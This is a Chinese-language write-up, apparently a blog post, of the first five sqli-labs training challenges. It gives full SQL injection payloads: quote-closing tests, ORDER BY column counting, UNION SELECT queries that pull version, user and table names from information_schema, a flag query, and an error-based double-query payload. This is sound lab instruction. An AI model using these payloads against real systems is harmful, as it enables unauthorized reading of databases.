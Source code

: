 ```yaml
---
title: sql-labs(一)
date: 2020-09-22 10:50:08
tags: 
- sql注入
categories:
- DROPS
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201111120858.png
---
```


## 前言

在线靶机地址：https://buuoj.cn/challenges#sqli-labs

## less-1

​	首先说明sql注入的大致步骤：

* 判断注入类型。如整型字符型注入等。
* 判断列数
* 判断数据的回显位
* 构造sql语句



​	根据题目提示，说明是一个单引号注入题目，构造一个带单引号的语句`?id=1'`，发现数据库报错

![](https://s1.ax1x.com/2020/11/04/BgERNd.png)

​	通过后面的报错语句`1'' LIMIT 0,1`的分析，我们的单引号被数据库解析，那么说明我们也可以使用连接查询`union`插入我们想要查询的语句。

​	推出数据库的查询的部分语句可能为`where id = '$id'LIMIT 0,1`，那么通过构造闭合`?id=1' [这里添加语句] --+`添加自己想要语句，语句后面的`--+`作用是将后面的其他语句注释掉。

​	首先是判断字段个数：`?id=1' order by 1 --+`，页面显示正常，直到尝试`?id=1' order by 4 --+`发现数据库报错

![](https://s1.ax1x.com/2020/11/04/BgVsGn.png)

​	说明数据库的字段值只有四个。

​	接下来测试数据的回显位，构造语句`?id=' union select 1,2,3 --+`，这里需要注意的有，前面`id`的查询一定是要不存在的，因为数据库只会回显第一条查询的数据，如果第一条语句查询成功则后面`union`构造的语句就不会显示；`union`连接查询语句后面查询的字段数需要和前面的字段数相等，详细用法可以自行查询。

​	执行后页面显示。

![](https://s1.ax1x.com/2020/11/04/BgZAeS.png)

​	说明查询语句的`2,3`是回显位，之后就可以将查询的语句进行替换。如：

​	获取数据库版本，数据库路径，当前用户，当前数据库：
​	`?id=' union select 1,concat_ws('_',user(),version(),database()),@@basedir --+` 

页面显示

![](https://s1.ax1x.com/2020/11/04/BgZbfs.png)

​	利用元数据库来爆表、爆数据

​	`?id=' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema=database() --+`

​	之后大家可以自行发挥。

​	`flag`的话我做的题是在`ctftraining.flag`表中，答案在：`?id=' union select 1,flag,3 from ctftraining.flag  --+`

## less-2

​	第二题看题目名称`intiger based`知大意，是id的数据类型由字符型变成了数字类型，这次就不使用单引号直接构造语句，和第一题差不多。

## less-3

​	看标题`Single quotes with twist`，是在前面题的基础上加上了括号包裹，所以语句就成了`where id = ('id')`所以我们闭合的方式也要改变。附源码

![](https://s1.ax1x.com/2020/11/04/BgnO1A.png)

## less-4

​	标题`Double Quotes`，说明是个引号注入，把前面题的单引号改成双引号构成闭合即可。

## less-5

​	标题`Double Injection-Single Quotes`，很明显提示是单引号，然后套用前面的方法， 发现这次题目变了，不管输入啥页面只显示一个`You are in...........`，但是数据库报错还是会显示，只要数据库错误还能显示，我们就可以是用一个新的技术把数据显示在错误信息上。

​	双查询注入也是我第一次听，贴一个讲大致原理的帖子：[点我](https://blog.csdn.net/Leep0rt/article/details/78556440)。

​	构造语句：

`?id=' union select 1,2,3 from (select 1,count(*),concat_ws('____________',floor(rand()*2),concat_ws('********',version(),database()))a from information_schema.tables group by a)b --+`

​	讲一下`CONCAT_WS(separator,str1,str2,…)`函数的用法：把`str1`、`str2`连接起来，并使用`separator`做分隔符。

